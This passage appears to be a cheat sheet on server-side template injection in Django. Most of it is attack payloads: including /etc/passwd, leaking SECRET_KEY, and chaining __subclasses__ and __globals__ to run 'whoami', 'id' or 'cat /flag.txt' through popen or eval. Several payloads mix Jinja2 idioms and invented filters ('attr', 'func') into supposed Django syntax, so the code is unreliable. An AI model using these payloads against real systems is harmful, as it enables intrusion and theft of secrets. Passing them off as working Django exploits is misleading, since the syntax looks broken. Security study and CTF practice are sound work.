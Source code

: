 ```
{{ "test"|upper }}
{{ 42|add:7 }}
```

### 4. Template Loading

If `{% include %}` or `{% extends %}` is used with user input:

```
{% include "/etc/passwd" %}
```

## RCE Techniques

Django is designed to prevent direct code execution, but there are bypass techniques:

### Accessing Settings

```
{{ settings.SECRET_KEY }}
```

### Accessing OS Module

```
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

Find a usable class like `subprocess.Popen` or `os._wrap_close`:

```
{% with a=request|attr:"__class__"|attr:"__mro__"|last|attr:"__subclasses__" %}
  {% with b=a()|attr:"pop"|func(177) %}
    {{ b("whoami")}}
  {% endwith %}
{% endwith %}
```

### Bypassing **builtins** Access

```
{% with a=''.__class__.__mro__[1].__subclasses__() %}
  {% with b=a|first|attr:"__subclasses__"|func %}
    {% with c=b|first|attr:"__init__"|attr:"__globals__"|attr:"__getitem__"|func:"builtins" %}
      {{ c|attr:"eval"|func:"__import__('os').popen('id').read()" }}
    {% endwith %}
  {% endwith %}
{% endwith %}
```

## CTF-Specific Exploits

One popular payload pattern for CTF challenges:

```
{% with a=request|attr:"application"|attr:"__globals__"|attr:"__getitem__"|func:"__builtins__" %}
  {{ a|attr:"__getitem__"|func:"__import__"|func:"os"|attr:"popen"|func:"cat /flag.txt"|attr:"read"|func }}
{% endwith %}
```
